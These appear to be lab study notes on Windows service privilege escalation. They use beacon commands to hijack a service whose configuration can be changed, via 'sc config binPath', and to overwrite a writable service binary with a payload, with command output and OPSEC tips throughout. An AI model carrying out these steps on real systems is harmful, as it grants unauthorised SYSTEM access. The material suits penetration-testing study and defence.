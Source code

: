 
If we are allowed to changeconfig of a service we can execute a arbitary binary

```
execute-assembly C:\Tools\SharpUp\SharpUp\bin\Release\SharpUp.exe audit ModifiableServices

=== Modifiable Services ===

	Service 'VulnService2' (State: Running, StartMode: Auto)
```

```
powershell-import C:\Tools\Get-ServiceAcl.ps1
powershell Get-ServiceAcl -Name VulnService2 | select -expand Access

ServiceRights     : ChangeConfig, Start, Stop
AccessControlType : AccessAllowed
IdentityReference : NT AUTHORITY\Authenticated Users
IsInherited       : False
InheritanceFlags  : None
PropagationFlags  : None
```

**Authenticated Users can: ChangeConfig, Start, Stop**

```
beacon> mkdir C:\Temp
beacon> cd C:\Temp
beacon> upload C:\Payloads\tcp-local_x64.svc.exe

beacon> run sc config VulnService2 binPath= C:\Temp\tcp-local_x64.svc.exe
[SC] ChangeServiceConfig SUCCESS
```

Validate that the path is updated:

```
run sc qc VulnService2
```

Restart the service and connect to the beacon

> [!OPSEC]
> Restore the service to previous state 

```
run sc config VulnService2 binPath= \""C:\Program Files\Vulnerable Services\Service 2.exe"\"
```

> [!warning] 
>  The additional set of escaped quotes is necessary to ensure that the path remains fully quoted, otherwise you could introduce a new unquoted service path vulnerability. 

## Weak Service Binary Permissions

If we can modify the binary we can replaceit with something else


```
powershell Get-Acl -Path "C:\Program Files\Vulnerable Services\Service 3.exe" | fl

Path   : Microsoft.PowerShell.Core\FileSystem::C:\Program Files\Vulnerable Services\Service 3.exe
Owner  : BUILTIN\Administrators
Group  : DEV\Domain Users
Access : BUILTIN\Users Allow  Modify, Synchronize
         NT AUTHORITY\SYSTEM Allow  FullControl
         BUILTIN\Administrators Allow  FullControl
         BUILTIN\Users Allow  ReadAndExecute, Synchronize
         APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES Allow  ReadAndExecute, Synchronize
         APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES Allow  ReadAndExecute, Synchronize
Audit  : 
Sddl   : O:BAG:DUD:AI(A;;0x1301bf;;;BU)(A;ID;FA;;;SY)(A;ID;FA;;;BA)(A;ID;0x1200a9;;;BU)(A;ID;0x1200a9;;;AC)(A;ID;0x1200
         a9;;;S-1-15-2-2)
```

 **BUILTIN\Users:  Allow  Modify, Synchronize**

> [!important] 
> Make a backup first  

```
download Service 3.exe
```

Make a copy of your payload whilst renaming it to Service 3.exe.
```
PS C:\Payloads>copy "tcp-local_x64.svc.exe" "Service 3.exe"
beacon> upload C:\Payloads\Service 3.exe
could not upload file: 32 - ERROR_SHARING_VIOLATION
```

> [!info] 
> This seems like an ambiguous error, but it means the file is already in use.  This makes sense, since the service is running.
>  ```
>  C:\>net helpmsg 32
The process cannot access the file because it is being used by another process.

```
beacon> run sc stop VulnService3
beacon> upload C:\Payloads\Service 3.exe

beacon> run sc start VulnService3
beacon> connect localhost 4444
[+] established link to child beacon: 10.10.123.102
```

